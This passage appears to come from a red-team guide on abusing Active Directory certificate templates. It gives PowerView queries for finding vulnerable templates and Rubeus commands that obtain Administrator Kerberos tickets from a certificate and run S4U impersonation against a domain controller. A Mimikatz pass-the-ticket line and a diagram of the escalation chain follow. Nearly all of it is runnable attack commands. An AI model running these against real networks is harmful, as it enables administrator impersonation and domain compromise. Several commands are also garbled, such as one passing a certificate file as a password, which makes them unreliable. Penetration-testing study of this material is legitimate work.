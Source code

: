 #### **2. PowerView Certificate Abuse**
```powershell
# Find vulnerable templates for abuse
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties * | Where-Object {
    $_.'msPKI-Enrollment-Flag' -band 0x00000002  # Enrollee Supplies Subject
} | Select-Object displayName,name,msPKI-Enrollment-Flag

# Check enrollment permissions
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties * | 
    ForEach-Object {
        $template = $_
        $acl = $template.nTSecurityDescriptor
        Write-Host "Template: $($template.displayName)"
        Write-Host "  Enrollment Permissions: $($acl.Access)"
    }

# Find high-value templates
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties * | 
    Where-Object {$_.displayName -like "*Admin*" -or $_.displayName -like "*Domain*"}
```

#### **3. Certificate-Based Authentication**
```powershell
# Use certificate for Kerberos authentication
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /outfile:admin.kirbi

# Use certificate for S4U2Self
.\Rubeus.exe s4u /user:Administrator /certificate:cert.pfx /impersonateuser:Administrator /msdsspn:cifs/DC01.cybercorp.local

# Convert certificate to hash
.\Rubeus.exe hash /password:cert.pfx

# Use certificate with Mimikatz
.\mimikatz.exe "crypto::capi" "crypto::cng" "kerberos::ptt admin.kirbi" "exit"
```

### **Certificate Template Exploitation Workflow**

```mermaid
sequenceDiagram
    participant RedTeam as 🔴 Red Team
    participant AD as 🏛️ Active Directory
    participant CA as 🔐 Certificate Authority
    participant Target as 🎯 Target System
    
    RedTeam->>AD: Enumerate certificate templates
    AD-->>RedTeam: Return template list
    
    RedTeam->>AD: Analyze template security
    AD-->>RedTeam: Return security settings
    
    RedTeam->>CA: Request malicious certificate
    Note over RedTeam,CA: Use vulnerable template<br/>with custom subject/SAN
    
    CA-->>RedTeam: Issue certificate + private key
    
    RedTeam->>Target: Authenticate with certificate
    Target-->>RedTeam: Grant access
    
    RedTeam->>Target: Perform privilege escalation
    Target-->>RedTeam: Elevated privileges
```
